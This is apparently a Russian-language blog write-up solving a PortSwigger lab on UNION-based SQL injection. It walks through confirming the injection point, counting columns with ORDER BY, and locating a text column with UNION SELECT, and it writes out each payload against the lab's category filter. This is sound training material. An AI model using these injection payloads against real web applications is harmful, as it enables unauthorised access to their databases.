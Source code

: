```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text"
---
```


## Scope
```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Нужно найти столбец, в котором используются строки.


## Solution

Из задания известно, что **sqli** находится в фильтре категории, поэтому возьму `URL` и буду работать с ним:

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти обрамление параметра. Предположу, что запрос в БД выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Поверю это, передав следующий пейлоад:

```
Accessories' and false-- -
```

Товары не отобразились, значит я нашел обрамление. 

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/1.png){: height="200" .align-center}

Далее найду количество колонок с помощью `ORDER BY`:

```
Accessories' ORDER BY 4-- -ошибка
Accessories' ORDER BY 3-- -ОК
```

Значит в БД 3 колонки. Подставлю `UNION`, чтобы вывести данные на страницу:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -ОК
```

Подставлю свои данные вместо `NULL`:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -
```

Только сейчас заметил, что нужно вывести определенную строку) Ну ок.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/2.png){: height="200" .align-center}


```
Accessories' UNION SELECT 'xCxqZ9', NULL, NULL-- -ошибка
Accessories' UNION SELECT NULL, 'xCxqZ9', NULL-- -ОК
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/3.png){: height="200" .align-center}

Лаба решена:3
